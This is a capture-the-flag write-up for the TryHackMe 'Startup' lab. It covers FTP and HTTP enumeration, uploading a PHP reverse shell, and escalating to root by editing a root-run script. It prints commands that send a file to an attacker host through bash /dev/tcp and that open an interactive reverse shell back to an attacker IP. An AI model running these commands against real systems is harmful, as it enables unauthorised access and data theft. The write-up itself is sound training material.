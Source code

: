 # [THM] - Startup

[Room link](https://tryhackme.com/room/startup)

---

## Enumeration

Nmap :

```bash
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B5:E9:5D:9D:5F (Unknown)
```

---

### FTP 
---

Let(s try to connect us to the ftp servica as anonymous user.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

That works. 

```bash
ftp> get .test.log
ftp> get important.jpg
ftp> get notice.txt
```

After reading this files, there is no important things in there. Let's moving on the web service on the 80 port.

---

### HTTP 80

There is not interresting things on the default page. We will scan the web content directory of this website with dirb tool.

```bash
$ dirb http://10.10.1.159/
[...]
==> DIRECTORY: http://10.10.1.159/files/
+ http://10.10.1.159/index.html (CODE:200|SIZE:808)                          
+ http://10.10.1.159/server-status (CODE:403|SIZE:276) 
```

The files in the files directory seems the same on the ftp. 

---

## Exploitation

Let's try to upload a reverse shell on the ftp service.

```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (124.7497 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jan 03 17:56 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Jan 03 17:56 php-reverse-shell.php
226 Directory send OK.

```

We can't upload a file on the root of the ftp but we can on the "ftp" directory. Don't forget to set up the nc listenner and activate this file on the http://<target_ip>/files/

```bash
Connection from 10.10.1.159 44792 received!
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:58:59 up 19 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We received a connection !

---

### Secret food flag

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was ****.
```

## User flag

After stabilized our shell, let's look on the root server directory. There is a strange directory named "incidents" with a pcap file named "

```bash
www-data@startup:/$ ls -l
total 92
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Jan  3 17:39 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
[...]
www-data@startup:/incidents$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

We need to download this file for analyzes it with wireshark. Let's download it via nc listenner.

On the attacker machine :

```bash
$ nc -lnvp 1235 > file.pcap
```

On the target machine :

```bash
$ bash -c 'cat suspicious.pcapng > /dev/tcp/<attacker_ip>/1235'
```

Let's dive into the sequence 7 of the TCP stream on the pcap file and show the TCP stream, we can see a strange string.

Let's try to connect on the user lennie with this password.

That works !

```bash
www-data@startup:/incidents$ su lennie -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
lennie@startup:/incidents$
```

The user flag is in the lennie's home directory on the user.txt file.

---

## Root flag

On the lennie's home directory, we can see a script called planner.sh

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After reading, the script will execute /etc/print.sh script and this file is editable by lennie.
The next step is to set up a nc will initilized a connection. 

On the attacker machine :

```bash
nc -lnvp 1235
```

On the target machine, add this lines into /etc/print.sh :

```bash
bash -c 'exec bash -i &>/dev/tcp/<attack_ip>/1235 <&1'
```

Right now, we are root !

Then, get the root flag on /root/root.txt
